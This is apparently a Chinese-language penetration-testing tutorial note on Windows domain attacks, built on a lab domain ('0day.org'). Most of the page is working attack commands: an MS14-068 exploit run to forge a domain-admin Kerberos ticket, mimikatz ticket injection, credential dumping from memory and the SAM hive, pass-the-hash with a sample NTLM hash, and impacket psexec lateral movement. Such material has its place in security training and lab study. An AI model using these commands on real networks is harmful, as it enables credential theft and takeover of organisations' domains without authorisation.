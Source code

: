```yaml
---
title: 域渗透入门（二）
categories:
- WindowsDomain
tags:
- WindowsDomain
---
```


## 参考资料
- 乌云文章：《使用Hash直接登录Windows》
- [维基百科Pass_the_hash的定义](https://en.wikipedia.org/wiki/Pass_the_hash)
- [metasploit mimikatz](https://www.fujieace.com/metasploit/mimikatz.html)
- [Kerberos协议探索系列之票据篇：MS14068漏洞和Kerberos票据的利用说明](https://www.anquanke.com/post/id/172900#h2-0)


## 录制的视频教程

 [域渗透实践篇（二）](https://www.bilibili.com/video/BV1Qz411B7BQ)
1. 域信息搜集
2. ms14-068 域普通用户提权到域管理员

 [域渗透实践篇（三）](https://www.acfun.cn/v/ac15162313)
1. pass the hash票据传递攻击

## Kerberos域用户提权漏洞ms14-068

### 准备域内普通用户权限（以及DC未打补丁）

1. 域控添加一个user用户

2. 192.168.1.3 计算机添加user用户
```
net user user admin!@#45      #添加一个用户user，添加密码
---
注销管理员用户，登陆用户user
用户名：SRV-WEB-KIT\user
密码：admin!@#45
```
3. 测试域普通用户与域管理员区别

4. 生成高权限票据
```
python ms14-068.py -u whale@0day.org -s  S-1-5-21-1812960810-2335050734-3517558805-1178 -d 192.168.1.131 -p qwe123$%
 
需要普通域用户名称
普通域用户sid
普通域用户明文密码或者hash
```
5. mimikatz导入hash
```
mimikatz.exe
kerberos::list			#列出内存中的票据信息
kerberos::purge         #清除内存中的票据信息
kerberos::ptc TGT_whale@rootkit.org.ccache(生成的高权限票据全名)	#导入高权限票据到内存，获得域管理员权限

```
## 票据传递
```
mimikatz_command -f sekurlsa::logonPasswords
导出登陆的密码

python /usr/share/doc/python-impacket/examples/psexec.py Administrator@192.168.1.2 cmd.exe

使用密码admin!@#45，成功连接

使用ntlm hash，ccef208c6485269c20db2cad21734fe7，连接失败

有两种可能 
1. 工具psexec.py，只能使用明文密码连接
2. hash出错，不是ccef208c6485269c20db2cad21734fe7, 而是其他hash
3. windows 2012 R2不支持pass the hash
```
### NT hash、LM hash、NTLM hash
LM hash的全名LAN Manager Hash，容易被破解。因此windows visa与winSever2008之后的版本默认禁用了LM hash。
NTLM hash取代了LM hash，安全性更高，从windowsSever2003开始，默认使用NTLM hash。

所说的NT hash就是NTLM hash，有些文档这么称呼，我还以为是两种不同的加密方式，只是称呼不同而已。

### mimikatz提权ntlm hash
```
mimikatz.exe
log
lsadump::sam /sam:sam.hiv /system:sys.hiv
```
### 查看DC机器与Web机器的hash是否一致
```
修改web机器密码：net user administrator qwe123$%
保持这个密码与DC一致

DC (192.168.1.131): 4b211aa32bcd009f4d46f52438fe433d
WEB(192.168.1.130)：4b211aa32bcd009f4d46f52438fe433d

privilege::debug
sekurlsa::pth /user:administrator /domain:0day.org /ntlm:4b211aa32bcd009f4d46f52438fe433d
```
---
```
mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit >> log.txt
一行命令，将结果保存到log.txt
```
---
```
sekurlsa::logonpasswords
dir \\OWA2010SP3\C$
```
